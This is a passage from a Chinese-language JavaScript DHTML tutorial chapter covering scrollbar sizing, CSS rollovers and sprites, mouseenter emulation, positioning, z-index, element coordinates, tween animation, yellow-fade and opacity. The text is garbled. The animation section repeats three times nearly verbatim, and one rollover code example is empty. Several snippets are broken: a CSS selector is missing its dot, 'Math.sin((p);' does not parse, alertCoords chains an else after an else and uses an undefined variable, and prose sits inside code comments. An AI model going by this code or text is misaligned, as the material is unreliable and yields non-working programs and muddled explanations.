    return {windowWidth: browserWidth, windowHeight: browserHeight, bodyWidth: bodyWidth, bodyHeight:bodyHeight, scrollX: scrollX, scrollY:scrollY};
}
```

这会返回一个包含值的对象。

## 滚动条宽度

另一个与几何结构相关的有用信息是滚动条的高度和宽度。虽然没有简单的单 属性可以获取这些值，但通过两个元素可以获取滚动条宽度。这基本上需要创建元素并将其放在 body 外。为了测试这些值，我们需要知道滚动的宽度。首先，创建一个 div 并将其放在页面之外：

```javascript
// 创建一个外部滚动 div
var dv = document.createElement('div');
dv.style.position = 'absolute';
dv.style.left = '-1000px';
dv.style.top = '-1000px';
dv.style.width = '100px';
dv.style.height = '100px';
dv.style.padding = '0px';
dv.style.margin = '0px';
dv.style.overflow = 'scroll';
dv.style.border = '0px';
// 附加到 DOM
document.body.appendChild(dv);
```

接下来，内部放入另一个 div 并使其变高：

```javascript
// 变形滚动 div 并创建滚动条
var inn = document.createElement('div');
inn.style.position = 'relative';
inn.style.border = '0px';
inn.style.height = '200px';
inn.style.padding = '0px';
inn.style.margin = '0px';
dv.appendChild(inn);
```

现在它们在 DOM 中，我们可以通过减去内部 div 的 `offsetWidth` 来测量宽度：

```javascript
var scrollbarWidth = 100-inn.offsetWidth;
```

最后，从 DOM 中移除原始 div 以避免产生不必要的标记：

```javascript
document.body.removeChild(dv);
```

现在我有了滚动条的像素宽度。滚动条宽度通常与高度相同，因此没有必要测量测量高度。这里是完整的操作，封装成一个方便的实用函数：

```javascript
function getScrollbarSize() {
    // 创建一个外部滚动 div
    var dv = document.createElement('div');
    dv.style.position = 'absolute';
    dv.style.left = '-1000px'; dv.style.top = '-1000px';
    dv.style.width = '100px'; dv.style.height = '100px';
    dv.style.padding = '0px';
    dv.style.margin = '0px';
    dv.style.overflow = 'scroll';
    dv.style.border = '0px';
    // 附加到 DOM
    document.body.appendChild(dv);

    // 变形滚动 div 并创建滚动条
    var inn = document.createElement('div');
    inn.style.position = 'relative';
    inn.style.border = '0px';
    inn.style.height = '200px';
    inn.style.padding = '0px';
    inn.style.margin = '0px';
    dv.appendChild(inn);

    var scrollbarWidth = 100-inn.offsetWidth;
    document.body.removeChild(dv);

    return {scrollbarSize:scrollbarWidth};
}
```

在 DHTML 脚本中，开发者测量 DOM 元素的宽度和高度的情况并不罕见。他们这样做有许多原因。有时是为了帮助将其他元素定位在这些元素的上方或侧边，有时是为了是为了为复杂的动画计算像素位置。一个元素的宽度和高度由 DOM 属性 `offsetWidth` 和 `offsetHeight` 描述。虽然它们不属于任何官方规范的一部分，但它们得到了相当通用的支持。图 16-2 展示了这些属性是如何融入元素的整体布局的。


由于 div 将占据页面的整个宽度……

在 JavaScript 中，当你访问这些属性时，你获得的是一个数值值，该值可以直接用于任何计算，而无需进一步处理（与 CSS 数字不同）。例如：

```html
<head><title>Element Dimensions</title></head>
<body>
    <div id="testDiv">
        <h1>Hello World!</h1>
    </div>
    <script type="text/javascript">
        var tdiv = document.getElementById('testDiv');
        document.write("Div width: " + tdiv.offsetWidth + "<br />");
        document.write("Div height: " + tdiv.offsetHeight + "<br />");
    </script>
</body>
</html>
```

由于 div 将占据页面的整个宽度，此结果将取决于因素以及其他几个因素。在我的屏幕上，它的输出为：

Div width: 1175

Div height: 36

## 图像切换与悬停效果（Rollovers）

DHTML 最早的使用可能是为了在用户鼠标悬停在按钮上时产生悬停效果。在支持任何类型 DHTML 的极早期浏览器中，这是可以实现的（尽管方式很迂回），而且这种技术一直使用今天。可以使用一些内联脚本实现一个原始的悬停效果：

```html

```

在 `onmouseover` 事件绑定中，`this` 指图像对象，因此 `this.src` 直接指向元素的图像源。当用户用鼠标悬停在图像上时，`src` 将动态更改。这种方法有几个缺点。首先，作为按钮，这种做法极不具备访问性（inaccessible）。使用屏幕阅读器的用户很难理解这是一个按钮或与其交互。另一个问题是，浏览器在 `src` 更改时必须下载 `button_hover.gif`。这会导致一种突兀的视觉，因为悬停状态在几秒钟后才会出现。第三个问题是它仅适用于按钮这一窄用途。如果你想让页面的更广泛区域在鼠标悬停时做出反应怎么办？第四个问题仅仅是将你的代码内联在图像标签中是凌乱且难以维护的，特别是当有大量按钮时。

这些都是问题。为了让我的解决方案简单明了，我将分步骤解决它们。如果我使用 CSS 类而不是切换图像的 `src` 属性，我就可以避免突兀的重绘效果（尽管图像仍然需要下载）。此外，通过将此按钮转换为超链接，它现在变成了一个可访问的链接，搜索引擎和用户都可以遵循并理解它：

```css
<style type="text/css">
rollover {
    background-image: url(button.png);
    background-repeat:none;
    display:block;
    width:162px;
    height:40px;
    color:white;
}
.rollover:hover {
    background-image: url(button_hover.png);
}
</style>
```

```html
<a href="/store/" class="rollover">
    Store
</a>
```

通过使用 CSS，我成功完全消除了对 JavaScript 实现悬停效果的需求。使用的两张图像见 图 16-3。当超链接处于 `:hover` 状态时，这会产生一种很好的高亮效果。

仍然存在用户悬停在按钮上时下载图像的问题。这个问题的解决方法是精灵图（sprites）。精灵图是一种在很多 DHTML 中使用的技术。它基本上涉及使用 CSS 背景将一张非常大的图像部分置于页面的特定区域，以创建出具有独立图像的效果，但复用同一张大图。我可以通过将两张图像合并为一张并将按钮示例转换为使用精灵图，如 图 16-4 所示。

要定位背景，使用 `background-position` 属性。该属性的语法包括像素位置，并为整体地图中的各种图像指定精确坐标。再次查看按钮，我可以修改 CSS 类，这样不需要下载新图像，只要第一张图像可用，当用户鼠标悬停在按钮上时，第二状态将立即出现：

```css
<style type="text/css">
rollover {
    background-image: url(sprite.png);
    background-repeat:none;
    display:block;
    width:162px;
    height:40px;
    color:white;
    background-position:0px 0px;
}
.rollover:hover {
    background-position:0px -40px;
}
</style>
```

### 悬停与 MouseEnter 和 Mouseleave

正如第 12 章讨论，你不能仅仅依靠 `mouseover` 和 `mouseout` 事件。这是由于事件冒泡 DOM 的方式；你可能会在不希望的时候触发 `mouseout` 事件。我将借用一些代码来模拟 `mouseenter` 和 `mouseleave`，以演示你可能如何实现复杂的悬停效果（例如，带有下拉菜单）。让我们从嵌入 HTML 开始。带有类 `regionDiv` 的容器将作为悬停区域：

```html
<head>
    <title>Rollovers With Mouseenter and Mouseleave</title>
    <style type="text/css">
        .regionDiv {
            width:350px;
            height:350px;
            float:left;
            border:1px solid grey;
            background-color:#f0f0f0;
        }
        .regionHighlight {
            background-color:yellow !important;
        }
        .embeddedDiv {
            width:150px;
            height:150px;
            border: 1px dotted grey;
            background-color:white;
        }
    </style>
</head>
<body>
    <div class="regionDiv">
        <h1>Region 1</h1>
        <div class="embeddedDiv">Hello World</div>
    </div>
    <div class="regionDiv">
        <h1>Region 2</h1>
        <div class="embeddedDiv">Hello World</div>
    </div>
    <div class="regionDiv">
        <h1>Region 3</h1>
        <div class="embeddedDiv">Hello World</div>
    </div>
    <div class="regionDiv">
        <h1>Region 4</h1>
        <div class="embeddedDiv">Hello World</div>
    </div>
</body>
</html>
```

接下来，我将使用第 12 章引入的技术添加事件处理程序：

```javascript
function addHandlers() {
    var divs = document.getElementsByTagName("div");
    for (var i = 0; i < divs.length; i++) {
        if (hasClass(divs[i], "regionDiv")) {
            if (document.attachEvent) {
                divs[i].attachEvent("onmouseenter", hoverElement);
                divs[i].attachEvent("onmouseleave", unHoverElement);
            } else {
                divs[i].addEventListener("mouseover", function(a) {
                    return function(e) {hoverElement(e, a)}
                }(divs[i]), true);
                divs[i].addEventListener("mouseout", function(a) {
                    return function(e) {unHoverElement(e, a)}
                }(divs[i]), true);
            }
        }
    }
}
```

这将导致原始元素的引用连同事件对象一起传递给处理程序。我希望这个设置函数在页面的 `onload` 事件中调用，为了简单起见，我将直接将其作为 `body` 标签上的内联事件添加：`<body onload="addHandlers()">`。

现在我将使用 `mouseenter` 和 `mouseleave` 技术来创建 `hoverElement()` 和 `unHoverElement()`：

```javascript
function hoverElement(e, oTarget) {
    var isChildOf = function(pNode, cNode) {
        if (pNode === cNode)
            return true;
        while (cNode && cNode !== pNode)
            cNode = cNode.parentNode;
        return cNode === pNode;
    }
    var target = e.srcElement || e.target;
    if (!oTarget)
        oTarget = target;
    var relTarg = e.relatedTarget || e.toElement;
    if (document.attachEvent || !isChildOf(oTarget, relTarg))
        addClass(oTarget, "regionHighlight");
}

function unHoverElement(e, oTarget) {
    var isChildOf = function(pNode, cNode) {
        if (pNode === cNode)
            return true;
        while (cNode && cNode !== pNode)
            cNode = cNode.parentNode;
        return cNode === pNode;
    }
    var target = e.srcElement || e.target;
    if (!oTarget)
        oTarget = target;
    var relTarg = e.relatedTarget || e.toElement;
    if (document.attachEvent || !isChildOf(oTarget, relTarg))
        removeClass(oTarget, "regionHighlight");
}
```

如果浏览器是 Internet Explorer，`document.attachEvent()` 检查将允许事件代码执行；否则，在情况下，必须遍历 DOM 以验证 `relatedTarget` 不是容器元素的祖先。这将有效地控制事件的触发，使得 `mouseenter` 代码仅在用户鼠标悬停在元素上触发一次，而当他在元素内部移动鼠标时不触发（`mouseleave` 也是如此）。

你会发现这种技术经常非常有用。MooTools 和 JQuery 等 JavaScript 框架支持它们自己的 `mouseenter` 和 `mouseleave` 函数，使你无需亲自完成所有繁重的工作。你可以在几乎任何情况下复用这种技术。

## 定位

许多 DHTML 组件涉及定位非常精确的块级元素，如 `divs`。例如，工具提示组件可能会在页面上的某些文本旁边放置一个 `div`。滑块控件将有一个 `div` 位于两个端点之间的平面上。下拉菜单会在页面其他部分上方的浮动框显示其子菜单项。要创建这些效果，你必须理解定位的细微差别，包括如何定位某个物体以及如何确定元素的位置。

### 绝对位置和相对位置

在 CSS2 规范中，架构师意识到开发者需要一种方法来从绝对意义上（例如将 `div` 放置在特定的 x,y 位置）和相对意义上（例如将 `div` 放置在另一个 `div` 下方 20 像素处）控制元素的定位。因此，CSS 定位诞生了。有几种不同的定位类型，但有两种在 DHTML 中特别有用。

#### 绝对定位

当使用 CSS 属性设置 `position:absolute` 时，你可以强制任何元素出现在文档的正常流和布局之外，并位于特定坐标处覆盖你其他内容的上方。以下元素将不会出现在标题下方，而是会出现在它上方：

```html
<html>
<body>
    <h1>Heading</h1>
    <div style="position:absolute; top:10px;left:10px;">Hello World</div>
</body>
</html>
```

属性 `top:10px` 和 `left:10px` 告诉浏览器该元素将距离最顶部相对元素的顶部 10 像素。

#### 相对定位

使用相对定位，你拥有相同的四个方向边距（上、左、右、下），但这些位置不是固定在窗口上的，而是相对于元素所在的位置的。例如，以下段落：

<p>Paragraph 1</p>

<p style="position:relative; left:20px;">Paragraph 2</p>

<p>Paragraph 3</p>

需要注意的是，你可以在随时更改元素的位置，即使在页面渲染之后也是如此。你可以通过修改 `position` CSS 属性从流中“提取”元素。以下代码段将通过 ID 识别元素，然后通过设置其绝对位置将其从文档流中拉出：

```javascript
function yankOut(elId) {
    var elObj = document.getElementById(elId);
    elObj.style.position = "absolute";
    elObj.style.left = "10px";
    elObj.style.top = "10px";
}
```

要在快速示例中使用此项，请考虑以下四个 HTML 段落：

```html
<p id="par1">Lorem ipsum dolor sit amet, consectetur adipisicing elit, sed do tempor incididunt ut labore et dolore aliqua. Ut enim ad minimveniam,quis nostrud exercitation laboris nisi ut aliquip ex ea commodo.</p>
<p id="para2">Lorem ipsum dolor sit amet, consectetur adipisicing elit, sed do eiusmod tempor incididunt ut labore et dolore aliqua. Ut enim ad minimveniam,quis nostrud exercitation laboris nisi ut aliquip ex ea commodo.</p>
<p id="para3">Lorem ipsum dolor sit amet, consectetur adipisicing elit, sed do eiusmod tempor incididunt ut labore et dolore aliqua. Ut enim ad minimveniam,quis nostrud exercitation laboris nisi ut aliquip ex ea commodo.</p>
```

为了将第二个段落从布局中提取出来并导致文档重排，我将创建一个调用我的 `yankOut()` 函数的按钮：`<button onclick="yankOut('para2')">Yankout the second paragraph.</button>`。点击按钮时，更新后的文档将看起来像 [图 16-6]。

通过绝对定位（absolute positioning），你能够让元素相互重叠。它们显示的顺序 `order`（即哪个元素显示在最上方 `top`）是由它们在 DOM 中出现的顺序控制的。对于 DHTML 来说，这是不足够的，因为你可能需要根据情况定期更改元素的堆叠顺序。解决此问题的 CSS 解决方案是 `z-index`。在三维空间中，有三个轴。x 轴等于 CSS 属性 `left` 和 `right`，因为它是水平面。y 轴等于 CSS 属性 `top` 和 `bottom`，因为它是垂直面。堆叠顺序，或 `z 轴`（参见图 16-7），由 CSS 属性 `z-index` 或作为 DOM 属性的 `zIndex` 表示。图 16-7 绝对定位的元素不会自动被赋予默认的 `zIndex`，但你可以设置它的 `zIndex`，DOM 将相应地更新堆叠顺序。`带有` `zIndex` 的元素将出现在没有 `zIndex` 的元素之上，索引较高的元素将显示在索引较低的元素之上。在下面的 HTML 代码段中有三个 `div`，它们都相互重叠。在图 16-8 中，你将在左侧图像看到它们的初始状态。

```html
<style type="text/css">
div {
    position:absolute;
    width:100px;
    height:100px;
    background-color:yellow;
    border: 1px solid black;
}
</style>

<div id="di1" style="top:50px; left:50px">Div 1</div>
<div id="div2" style="top:80px; left:120px">Div 2</div>
<div id="div3" style="top:120px; left:80px;">Div 3</div>
```

我可以通过将它的 `zIndex` 设置为某个数字，将当前位于堆叠底部的第一个 `div` 强制置到顶端。图 16-8<button onclick="setZ('div1', 1000)">让 Div 1 回到前面。</button>

```javascript
<script type="text/javascript">
function setZ(elId, newZ) {
    var elObj = document.getElementById(elId);
    elObj.style.zIndex = newZ;
}
</script>
```

当用户点击按钮时，新索引将被设置，DOM 将自动更新以反映新的顺序。

## 获取元素的绝对位置

换句话说，硬币的另一面是读取 DOM 中元素的位置。例如，一个提示框（tooltip）组件需要知道内容或超链接所在的位置，以便放置在它旁边。组合框（combo-box）的下拉部分需要直接放置在输入区域正下方，这样看起来才正确。如果你不知道目标的精确像素坐标，这些事情将很难正确完成。遗憾的是，目前没有标准且简单的方法可以从浏览器中获取这些信息，这确实令人惊讶，因为这是一个非常常见的用例。相反，开发者使用了各种技术来获取这些信息，但准确程度各不相同。

在 Internet Explorer 5+ 和 Firefox 3.0+ 中，所有 DOM 元素上都有一个名为 `getBoundingClientRect()` 的可用函数，它返回元素相对于窗口左上角的坐标。结果对象的成员包括：要将其转换为有用的文档坐标，你必须加上文档的滚动位置，并将结果舍入到最近的整数。让我们来看一个例子。首先，我从一个简单的文档开始，并在底部创建一个按钮：

```html
<head></head>
<body>
    <p>Lorem ipsum dolor sit amet, consectetur adipisicing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip ex ea comodosequat.</p>
    <p id="para2">Lorem ipsum dolor sit amet, consectetur adipisicing elit, sed doius tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip ex ea consequat.</p>
    <button onclick="alertCoords('para2')">告诉我第二个段落的位置。</button>
</body>
```

现在，我将创建一个 `alertCoords` 函数，它接受要检查元素的 ID：

```javascript
function alertCoords(elId) {
    var elObj = document.getElementById(elId);
    if (elObj.getBoundingClientRect) {
        var coords = elObj.getBoundingClientRect();
// 接下来我需要加上文档的滚动位置
// Internet Explorer
        var scrollX = document.body.scrollLeft;
        var scrollY = document.body.scrollTop;
        if (window.pageXOffset) {
// Firefox
            scrollX = window.pageXOffset;
            scrollY = window.pageYOffset;
        }
// 最后，我将坐标映射到最近的整数
        alert("left: " + Math.round(coords.left + scrollX) + ", right: " + Math.round(coords.right + scrollX) + ", top: " + Math.round(coords.top + scrollY) + ", bottom: " + Math.round(coords.bottom + scrollY));
    } else {
        var scrollY = document.body.scrollTop;
        if (window.pageXOffset) {
            // Firefox
            scrollX = window.pageXOffset;
            scrollY = window.pageYOffset;
        }

        coords = {
            left:Math.round(coords.left)+scrollX,
            right:Math.round(coords.right)+scrollX,
            top:Math.round(coords.top)+scrollY,
            bottom:Math.round(coords.bottom)+scrollY
        };
    } else if (document.getBoxObjectFor) {
        var coords = document.getBoxObjectFor(elObj);
        coords = {
            left:coords.x,
            right:coords.x+coords.width,
            top:coords.y,
            bottom:coords.y+coords.height
        };
    } else {
        var elCopy = elObj;
        var originalElement = elObj;
        for (var lx=0, ly=0;elObj!=null;
            lx+=elObj.offsetLeft,ly+=elObj.offsetTop,elObj=elObj.offsetParent);
        for (;elCopy!=document.body;
            lx-=elCopy.scrollLeft,ly-=elCopy.scrollTop,elCopy=elCopy.parentNode);
        coords = {
            left:lx,
            right:lx+originalElement.offsetWidth,
            top:ly,
            bottom:ly+originalElement.offsetHeight
        };
    }

    return coords;
}
```

## 动画

既然你已经理解了 DHTML 定位和使用 CSS 操作元素的基础知识，那么查看动画就很合理了。现代浏览器提供了极高性能的 DHTML 引擎，能够每秒数帧地对文档中的元素进行动画处理。尽管 JavaScript 是单线程的，但仍然创建许多同时执行独立动画的*伪线程*，且运行速度相对较快。如果你从未考虑过在应用程序中使用动画，你可能认为认为它的用处仅限于娱乐和游戏。你就错错了。你可以利用动画来传达应用程序中正在发生的大量信息，并提醒用户重要信息以及文档内容的变化。当增量视觉变化以每秒约 10 帧或更高的速度连接起来时，普通人开始感知到动画中流畅的运动（尽管这只是一个准则）。为了营造出一个框从 50 像素增加到 100 像素的印象，你可能先将宽度改为 55 像素，等待 100 毫秒，再次将宽度增加到 60 像素，再等待 100 毫秒，并重复。当 1000 毫秒（1 秒）结束时，框宽将变为 100 像素，你实际上为用户实现了过渡动画。

### 使用计时器伪线程

基于你对动画的了解，你可能会尝试这样的操作：使用 for 循环来*迭代*框的宽度从 50 到 100。。看看会发生什么。以下是这种令人失望的动画示例：

```javascript
var divObj = document.getElementById("div");

for (var width = 50; width <= 100; width++) {
    divObj.style.width = width + "px";
    var timer = new Date();
    while ((new Date())-timer < 100) {}
}
```

浏览器并没有平滑地执行，而是卡顿了一会儿；然后框突兀地变成了 100 像素宽。为什么会发生这种情况？JavaScript 是单线程的，这意味着只有一个光标在迭代每一行，当它运行到所有执行代码末尾时，它才有机会实现对 DOM 进行的任何更改（重流和重绘）。只有当所有代码都执行完毕，JavaScript 才有机会这样做。在 Opera 等某些浏览器中，重流和重绘的规则比这稍微复杂一些，但从所有角度来看，你不能这样构建你的代码。相反，你需要创建线程（实际上是伪线程），允许 DOM 在每个“帧”之间进行更新。线程是通过计时器函数 `setTimeout()` 和 `setInterval()` 创建的。这些是全局函数具有以下通用语法：

```javascript
timeoutObj = window.setTimeout(codeOrRef, delay);
intervalObj = window.setInterval(codeOrRef, delay);
```

`setTimeout()` 创建一个一次性事件，将在创建后*大约* `delay` 毫秒触发。当事件发生时，如果 `codeOrRef` 是字符串，它将通过 `eval()` 执行；如果它是函数引用，则将进行调用。第二个函数 `setInterval()` 创建一个重复事件，将每隔 `delay` 毫秒（大约）触发一次。若要在 `setTimeout()` 事件触发之前停止或取消它，请使用 `clearTimeout()`：`clearTimeout(timeoutObj)`。对于间隔，使用 `clearInterval()`：`clearInterval(intervalObj)`。

通过将动画的每一帧放入计时器事件中，这些事件之间的时间会被浏览器用于更新 DOM：

```javascript
function animDiv() {
    var divObj = document.getElementById("myDiv");
    var divWidth = divObj.offsetWidth;
    if (divWidth < 100) {
        divObj.style.width = divWidth+1 + "px";
        setTimeout(animDiv, 100);
    }
}
```

上一个例子是 `linear`（线性）动画的一个良好演示，它基本上是从一个位置到另一个位置的稳定匀速动画。这也被称为 `tween`（补间动画），因为它计算了两个参考位置之间的中间位置。执行 `tweening`（补间）的动画框架通常支持多种类型的 `nonlinear`（非线性）以及线性动画。这基本上意味着当对象在时空中从 `p0`（起始位置）到 `p1`（结束位置）之间移动时，其运动的积分，即加速度一直在不断变化。因此，你看到的不是一个框以恒定速度从一个点移动到另一个点，而是看到它可能在移动过程中逐渐加速，然后在接近目标时逐渐减速，正如你在图 16-9 所示。这可以创建出更真实的动画。该原理可以应用于所有类型的动画，而不仅仅是位置。图 16-9

基于 ECMAScript 的补间动画以及这些“缓动方程”（easing equations，正如它们被称为那样）的许多思想领先是由 Robert Penner 完成的，他写了一本关于该主题的书并在 BSD 协议下授权了他的工作（[`www.robertpenner.com`](http://www.robertpenner.com)）。许多支持补间的流行 JavaScript 框架（如 Mootools）都是以他的工作为基础。

为了在动画中利用补间动画，从一个基础动画类开始是合理的，该类接受运动的基本参数以及提供你所需要的非线性运动的数学 `equation`（方程）。首先，让我们创建动画类的构造函数：

```javascript
function animation(targetObj, fromX, fromY, targetX, targetY, animTime, animFn){
  // 因为这是一个简单的“从这里到那里”的动画类，我只接受四个描述运动性质的动画参数：`fromX` 和 `fromY` 将是 `targetObj` 的起始位置，`targetX` 和 `targetY` 将是元素的结束位置。总动画时间将由 `animTime` 定义，`animFn` 将作为过渡公式（我还没有向你展示这些）。在构造函数中，我记录了这些属性的每一个以备稍后使用：

  // 记录对象
  var that = this;

  // 存储我们的动画参数
  this.targetObj = targetObj;
  this.fromX = fromX; this.fromY = fromY;
  this.targetX = targetX; this.targetY = targetY;
  this.animTime = animTime;
  this.animFn = animFn;
}
```

接下来，我将定义一个导致动画开始函数：

```javascript
this.go= function() {
    that.startTime= new Date();
    that.drawFrame();
}
```

该函数设置起始时间，然后调用另一个函数 `drawFrame()`，该函数渲染动画的每一帧。在 `drawFrame` 中，第一个任务是计算动画的 `percentage completion`（完成百分比）。简单来说，这就是已通过的时间除以动画剩余的总时间（参见图 16-10）。图 16-10

```javascript
this.drawFrame= function() {
    var progress = that.animFn(((new Date() -that.startTime)/that.animTime));
```

然后，结果通过通过 `animFn` 定义的函数，该函数返回一个非线性进度的 `new` 百比值（参见图 16-11

调节动画的算法可以从简单到复杂。这里有两个例子：

```javascript
transitions = {
    linear:function(p) {
        return p;
    },
    sine:function(p) {
        return 1-Math.sin((p);
    }
}
```

第一个函数将创建一个像之前的**线性动画，而第二个函数会创建一个缓入效果。现在我们有了 `progress`，可以用它来计算 `x` 和 `y` 坐标：

```javascript
var newX = (targetX - fromX) * progress;
var newY = (targetY - fromY) * progress;
```

最后，为了允许 DOM 重绘，我们设置一个定时器来调用：

```javascript
if (progress < 1) {
  setTimeout(this.drawFrame, 0);
}
```


# JavaScript 动画与 DHTML 组件

## 动画原理

该原理可以应用到所有类型的动画，而不仅仅是位置。图 16-9

基于 ECMAScript 的补间动画以及这些“缓动方程”（easing equations，正如它们被称为那些）的许多思想领先是由 Robert Penner 完成的，他写了一本关于该主题的书并在 BSD 协议下授权了他的工作（[`www.robertpenner.com`](http://www.robertpenner.com)）。许多支持补间的流行的 JavaScript 框架（如 Mootools）都是以他的工作为基础。

为了在动画中利用补间动画，从一个基础动画类开始是合理的，该类接受运动的基本参数以及提供你所需要的非线性运动的数学 `equation`（方程）。首先，让我们创建动画类的构造函数：

```javascript
function animation(targetObj, fromX, fromY, targetX, targetY, animTime, animFn) {
  // 因为这是一个简单的“从这里到那里”的动画类，我只接受四个描述运动性质的动画参数：`fromX` 和 `fromY` 将是 `targetObj` 的起始位置，`targetX` 和 `targetY` 将是元素的结束位置。总动画时间将由 `animTime` 定义，`animFn` 将作为过渡公式（我还没有向你展示这些）。在构造函数中，我记录了这些属性的每一个以备稍后使用：

  // 记录对象
  var that = this;

  // 存储我们的动画参数
  this.targetObj = targetObj;
  this.fromX = fromX; this.fromY = fromY;
  this.targetX = targetX; this.targetY = targetY;
  this.animTime = animTime;
  this.animFn = animFn;
}
```

接下来，我将定义一个导致动画开始函数：

```javascript
this.go = function() {
    that.startTime = new Date();
    that.drawFrame();
}
```

该函数设置起始时间，然后调用另一个函数 `drawFrame()`，该函数渲染动画的每一帧。在 `drawFrame` 中，第一个任务是计算动画的 `percentage completion`（完成百分比）。简单来说，这就是已通过的时间除以动画剩余的总时间（参见图 16-10）。图 16-10

```javascript
this.drawFrame = function() {
    var progress = that.animFn(((new Date() - that.startTime) / that.animTime));
```

然后，结果通过通过 `animFn` 定义的函数，该函数返回一个非线性进度的 `new` 百比值（参见图 16-11）。图 16-11

调节动画的算法可以从简单到复杂。这里有两个例子：

```javascript
transitions = {
    linear: function(p) {
        return p;
    },
    sine: function(p) {
        return 1 - Math.sin((p);
    }
};
```

第一个函数将创建一个像之前的**线性动画**，而第二个函数会创建一个缓入效果。现在我们有了 `progress`，可以用它来计算 `x` 和 `y` 坐标：

```javascript
var newX = (targetX - fromX) * progress;
var newY = (targetY - fromY) * progress;
```

最后，为了允许 DOM 重绘，我们设置一个定时器来调用：

```javascript
if (progress < 1) {
  setTimeout(this.drawFrame, 0);
}
```

上一个例子是 `linear`（线性）动画的一个良好演示，它基本上是从一个位置到另一个位置的稳定匀速动画。这也被称为 `tween`（补间动画），因为它计算了两个参考位置之间的中间位置。执行 `tweening`（补间）的动画框架通常支持多种类型的 `nonlinear`（非线性）以及线性动画。这基本上意味着当对象在时空中从 `p0`（起始位置）到 `p1`（结束位置）之间移动时，其运动的积分，即加速度一直在不断变化。因此，你看到的不是一个框以恒定速度从一个点移动到另一个点，而是看到它可能在移动过程中逐渐加速，然后在接近目标时逐渐减速，正如你在图 16-9 所示。这可以创建出更真实的动画。该原理可以应用到所有类型的动画，而不仅仅是位置。图 16-9

基于 ECMAScript 的补间动画以及这些“缓动方程”（easing equations，正如它们被称为那些）的许多思想领先是由 Robert Penner 完成的，他写了一本关于该主题的书并在 BSD 协议下授权了他的工作（[`www.robertpenner.com`](http://www.robertpenner.com)）。许多支持补间的流行的 JavaScript 框架（如 Mootools）都是以他的工作为基础。

为了在动画中利用补间动画，从一个基础动画类开始是合理的，该类接受运动的基本参数以及提供你所需要的非线性运动的数学 `equation`（方程）。首先，让我们创建动画类的构造函数：

```javascript
function animation(targetObj, fromX, fromY, targetX, targetY, animTime, animFn) {
  // 因为这是一个简单的“从这里到那里”的动画类，我只接受四个描述运动性质的动画参数：`fromX` 和 `fromY` 将是 `targetObj` 的起始位置，`targetX` 和 `targetY` 将是元素的结束位置。总动画时间将由 `animTime` 定义，`animFn` 将作为过渡公式（我还没有向你展示这些）。在构造函数中，我记录了这些属性的每一个以备稍后使用：

  // 记录对象
  var that = this;

  // 存储我们的动画参数
  this.targetObj = targetObj;
  this.fromX = fromX; this.fromY = fromY;
  this.targetX = targetX; this.targetY = targetY;
  this.animTime = animTime;
  this.animFn = animFn;
}
```

接下来，我将定义一个导致动画开始函数：

```javascript
this.go = function() {
    that.startTime = new Date();
    that.drawFrame();
}
```

该函数设置起始时间，然后调用另一个函数 `drawFrame()`，该函数渲染动画的每一帧。在 `drawFrame` 中，第一个任务是计算动画的 `percentage completion`（完成百分比）。简单来说，这就是已通过的时间除以动画剩余的总时间（参见图 16-10）。图 16-10

```javascript
this.drawFrame = function() {
    var progress = that.animFn(((new Date() - that.startTime) / that.animTime));
```

然后，结果通过通过 `animFn` 定义的函数，该函数返回一个非线性进度的 `new` 百比值（参见图 16-11）。图 16-11

调节动画的算法可以从简单到复杂。这里有两个例子：

```javascript
transitions = {
    linear: function(p) {
        return p;
    },
    sine: function(p) {
        return 1 - Math.sin((p);
    }
};
```

第一个函数将创建一个像之前的**线性动画**，而第二个函数会创建一个缓入效果。现在我们有了 `progress`，可以用它来计算 `x` 和 `y` 坐标：

```javascript
var newX = (targetX - fromX) * progress;
var newY = (targetY - fromY) * progress;
```

最后，为了允许 DOM 重绘，我们设置一个定时器来调用：

```javascript
if (progress < 1) {
  setTimeout(this.drawFrame, 0);
}
```

## 颜色动画

`myDiv.style.backgroundColor = "rgb(100%,0%,0%)`; 使用 RGB 颜色值，通过迭代数值范围来实现颜色动画非常简单。

### 黄色渐变 (Yellow-Fade)

在 Ajax 应用程序开发者中，一种流行的技术是 `yellow-fade`，它基本上通过将背景颜色从黄色渐变为白色，引起对文档中变化区域的注意。这种方法的优点是明显但不会过度分散注意力。使用 CSS `rgb()` 值很容易实现这种效果。首先，让我们创建一个执行所有工作的单一工具函数：`function yellowFade(elRef){`。为了存储动画状态，我将使用 DOM 节点本身的扩展属性：`if (!elRef.yFade)` {

    `elRef.yFade = 0;`

在每次迭代中，我将将其增加 `2` 直到达到 `255`。当达到该值时，将扩展属性重置为 null，并将 `backgroundColor` 属性设为透明：`elRef.yFade += 2;`

```javascript
if (elRef.yFade >= 255) {
    elRef.yFade = null;
    elRef.style.backgroundColor = "transparent";
} else {
    // 最后，设置背景为我为这次迭代选择的黄色。由于纯黄色是 `#FFFF00` 或 `rgb(255,255,0)`，而白色是 `#FFFFFF` 或 `rgb(255,255,255)`，我必须在 `0` 到 `255` 之间迭代 `b` 值：
    elRef.style.backgroundColor = "rgb(255,255," + elRef.yFade + ")";
    setTimeout(function(){yellowFade(elRef)}, 20);
}
}
```

每次迭代都会设置背景颜色并启动 20 毫秒间隔的定时器。这将创建一个持续约 2.5 秒的渐变效果。

### 透明度 (Opacity)

在现代浏览器中，你也可以在范围内调整元素的透明度。通常情况下，你可以让元素从完全不透明渐变为完全透明，从而实现一些有趣的效果。然而，这种能力也有局限性。首先，让我们来看 CSS：

```javascript
function setOpacity(elRef, value) {
    // value 应该是 0 到 1 之间
    // W3C 浏览器和 IE7+
    elRef.style.opacity = value;
    // 旧版本的 IE
    elRef.style.filter = 'alpha(opacity=' + Math.round(value * 100) + ')';
}
```

在符合 W3C 标准的浏览器中，你可以将 `opacity` CSS 值设置为 0.0 到 1.0 之间的数字。在 IE7 之前的 Internet Explorer 版本中，你必须使用 `filter` 对象的 `alpha()` 命令来实现。在早期的浏览器中，并不是所有的 HTML 元素都可以更改透明度。在 Internet Explorer 中，像 `tbody` 和 `tr` 这样的表格元素不能更改透明度，但包含表格的元素是可以更改的，这意味着整个表格可以应用透明度，但子元素不能。

